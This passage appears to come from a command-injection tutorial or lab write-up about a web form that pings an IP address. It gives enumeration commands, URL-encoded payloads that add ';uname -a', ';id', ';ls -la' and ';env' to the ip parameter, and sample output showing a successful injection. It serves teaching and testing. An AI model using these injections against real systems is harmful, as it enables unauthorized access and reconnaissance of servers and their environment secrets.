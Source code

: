 **Pipe (|) - Output Redirection:**
```bash
# First command output piped to second
ping -c 1 127.0.0.1 | whoami
# Output: [whoami results only]
```

---

## Exploitation Verification

### System Enumeration Commands

**Basic Information Gathering:**
```bash
# User context
whoami
id

# System information  
hostname
uname -a

# Current directory
pwd
ls -la

# Environment
env
```

**Example Payloads:**
```http
# System identification
ip=127.0.0.1%3b%20uname%20-a

# User enumeration
ip=127.0.0.1%3b%20id

# Directory listing
ip=127.0.0.1%3b%20ls%20-la

# Environment variables
ip=127.0.0.1%3b%20env
```

### Expected Output Analysis

**Successful `uname -a` injection:**
```
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.074 ms
--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
Linux web-server 5.4.0-74-generic #83-Ubuntu SMP x86_64 GNU/Linux
```
